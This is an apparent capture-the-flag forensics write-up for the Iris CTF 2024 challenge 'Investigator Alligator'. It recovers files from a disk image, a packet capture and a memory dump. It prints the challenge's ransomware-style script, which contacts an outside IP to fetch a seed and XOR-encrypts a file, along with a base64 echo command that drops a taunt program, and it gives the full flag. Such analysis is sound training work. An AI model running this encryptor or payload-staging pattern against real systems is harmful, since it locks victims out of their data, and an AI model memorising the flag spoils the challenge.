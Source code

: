 # Investigator Alligator (Iris CTF 2024 - Forensics)

## Challenge
JoSchmoTechCo's server got hit! The folder containing their super duper important company secrets is all locked up. Luckily, the sysadmin was smart enough to be capturing the network traffic and take a memory sample when the whole ordeal went down.

The victim user, in a flurry of blind panic, also typed something after the damage was already done. We have an image of the disk after the event. Can you recover their files and find out what the victim typed?

> Note: the malware contained is rather innocuous, but it's still a bad idea to run untrusted programs off the Internet. Please don't do that.

### Resource
Download option 1 - 
[investigator-alligator.gz](https://shawndxyz.sjc1.vultrobjects.com/ctf/2024.irisctf/investigator-alligator.gz)

Download Option 2 (Mirror) - 
[Mirror investigator-alligator.gz](https://cdn.2024.irisc.tf/investigator-alligator.gz)

**NOTE**: Resource not included in repository due to its size.

```bash
ls -lah ./resource
total 31G
drwxr-xr-x 2 jc jc 4.0K Jan  7 12:51 .
drwxr-xr-x 3 jc jc 4.0K Jan  7 12:51 ..
-rw-r--r-- 1 jc jc  25G Jan  7 11:02 investigator-alligator
-rw-r--r-- 1 jc jc 6.4G Jan  7 11:05 investigator-alligator.gz
```

## Manual Solve

### First part of the flag

Extract the investigator-alligator.gz file:

```bash
7z x ./resource/investigator-alligator.gz -o./resource/
```

The file contains data formatted in ext4 filesystem:

```bash
file investigator-alligator
investigator-alligator: Linux rev 1.0 ext4 filesystem data, UUID=35fa8404-f9cc-45be-b6a5-22351ef2f486 (needs journal recovery) (extents) (64bit) (large files) (huge files)
```

Mount the filesystem:

```bash
sudo mkdir /mnt/investigator-alligator && sudo mount ./resource/investigator-alligator /mnt/investigator-alligator
```

- In root/LiME/src/ we find sample.mem, the memory dump mentioned in the challenge description.

- In root/capture we find network, the network traffic capture mentioned in the challenge description.

In /home/stephen we find the file rswenc.py with the content:

```py
#!/usr/bin/env python3
import random
import socket
import sys
import time
f_if = sys.argv[1]
f_of = sys.argv[2]
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("149.28.14.135", 9281))
seed = s.recv(1024).strip()
s.close()
random.seed(seed)
with open(f_if, "rb") as f:
	data = f.read()
stream = random.randbytes(len(data))
encrypted = bytearray()
for i in range(len(data)):
	encrypted.append(data[i] ^ stream[i])
with open(f_of, "wb") as f:
	f.write(encrypted)
```

This script uses an XOR operation to encrypt an input file and save the result to an output file.

`s.connect(("149.28.14.135", 9281))`: Establishes a connection with the server at IP address "149.28.14.135" and port 9281. Then receives a seed from the server.

`random.seed(seed)`: Initializes the pseudorandom number generator with the received seed.

`for i in range(len(data)): encrypted.append(data[i] ^ stream[i])`: Performs a byte-by-byte XOR operation between the input file content and the random byte sequence (stream), and stores the result in the bytearray object.

Being an XOR operation, knowing the seed value received, we can restore the input file to its original state.
To find the seed value, we'll look for it in the capture.

```bash
tshark -r network -Y "tcp.port == 9281" -T fields -e data | xxd -r -p
```

![seed](./images/investigator-alligator-seed.png)

We create a rwsdec.py script with the same content as rwsenc.py, removing the socket connection and changing the `seed =` line to `seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"`

The script becomes:
`rwsdec.py`:

```py
#!/usr/bin/env python3
import random
import sys

f_if = sys.argv[1]
f_of = sys.argv[2]

seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"

random.seed(seed)
with open(f_if, "rb") as f:
	data = f.read()
stream = random.randbytes(len(data))
decrypted = bytearray()
for i in range(len(data)):
	decrypted.append(data[i] ^ stream[i])
with open(f_of, "wb") as f:
	f.write(decrypted)
```

We place it in /home/stephen and run `python rwsdec.py encrypted.img decrypted.img`

```bash
sudo mkdir /mnt/investigator-alligator-decrypted && sudo mount ./decrypted.img /mnt/investigator-alligator-decrypted 
```

![ls decrypted](./images/investigator-alligator-ls-decrypted.png)

We open the image /mnt/investigator-alligator-decrypted/data/super_duper_important_info.png and find the first part of the flag: `irisctf{y0ure_a_r3al_m4ster_det3`

### Second part of the flag

The challenge description mentions that the user typed something after being hacked. Therefore, we'll search the memory dump generated by [LiME ~ Linux Memory Extractor](https://github.com/504ensicsLabs/LiME).

We open the file /root/LiMe/src/sample.mem in a text editor and on line 4062972 we find:

```bash
echo "I2luY2x1ZGUgPHN0ZGlvLmg+CiNpbmNsdWRlIDx1bmlzdGQuaD4KCmludCBtYWluKCkKewoJY2hhciBidWZmZXJbMTAyNF0gPSB7MH07CgoJcHV0cygiWU9VJ1ZFIEJFRU4gUFdORUQhIik7CglwdXRzKCJXSEFUIERPIFlPVSBTQVkgSU4gUkVTUE9OU0U/Iik7CglmZ2V0cyhidWZmZXIsIDEwMjQsIHN0ZGluKTsKCglwdXRzKCJNRUFOV0hJTEUsIFRIRSBQV05FUiBHT0VTIHp6ei4uLiIpOwoJc2xlZXAoOTk5OSk7Cn0K" | base64 -d > taunt.c
```

The source code for taunt.c, after using base64 -d is:

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
        char buffer[1024] = {0};

        puts("YOU'VE BEEN PWNED!");
        puts("WHAT DO YOU SAY IN RESPONSE?");
        fgets(buffer, 1024, stdin);

        puts("MEANWHILE, THE PWNER GOES zzz...");
        sleep(9999);
}
```

Since the program shows *"WHAT DO YOU SAY IN RESPONSE?"* we search for this text, and on line 867206 we find that as indicated in the challenge, the user wrote:

```
YOU'VE BEEN PWNED!
WHAT DO YOU SAY IN RESPONSE?
ctive_ty_f0r_s4v1ng_0ur_d4ta}
MEANWHILE, THE PWNER GOES zzz...
```

We found the second part of the flag: `ctive_ty_f0r_s4v1ng_0ur_d4ta}`. Therefore, we have the complete flag!

### Flag
Flag: `irisctf{y0ure_a_r3al_m4ster_det3ctive_ty_f0r_s4v1ng_0ur_d4ta}`

![Solved](./images/investigator-alligator-solved.png)

## Solution using solve.py
### Requirements
The script requires multiple packages. Requirements can be installed with the following command:

```bash
pip install -r requirements.txt
```

It also requires having [7z](https://linux.die.net/man/1/7z) installed

```py
# Run the 7z command to extract files
command = ["7z", "e", "-aos", output_file, capture_to_extract, f"-o{extracted_path}"]
```

### Execution
Run the following command:

```bash
python solve.py
```

It will show the second part of the flag in the output and the path to the image that needs to be viewed to obtain the first part of the flag.

> Note: the script will download the resource if not present in ./resource.

![Solved using python script](./images/investigator-alligator-python-solve.png)
